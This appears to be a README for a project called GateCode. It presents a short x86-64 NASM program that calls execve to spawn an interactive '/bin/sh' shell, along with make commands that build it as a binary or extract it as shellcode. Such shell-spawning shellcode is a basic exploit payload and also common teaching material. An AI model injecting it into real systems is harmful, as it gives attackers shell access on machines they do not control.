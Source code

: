 # GateCode

*universal method of executing system payloads*

GateCode is a method of executing system payloads through shellcodes.

## Explaining

```nasm
;
;  payload.nasm
;  GateCode
;
;  Created by The Gate Group on 2020.
;  Copyright © 2020 The Gate Group. All rights reserved.
;

; program entry point

section .text
global _start
_start:
	 mov rax, 59        ; call execve
	 lea rdi [rel cmd]  ; command
	 lea rsi [rel args] ; command args
	 xor rdx, rdx       ; envp
	 syscall            ; call execve

; program (read-only data) constants

section .rodata
align 8              ; enforce alignment
args dq cmd, arg1, 0 ; merge all command with arguments
arg1 db '-i', 0      ; initialize argument number 1
cmd  db '/bin/sh', 0 ; initialize command
```

## Usage

**Get payload:**

```
make payload
./payload
```

**Get shellcode:**

```
make shellcode
```
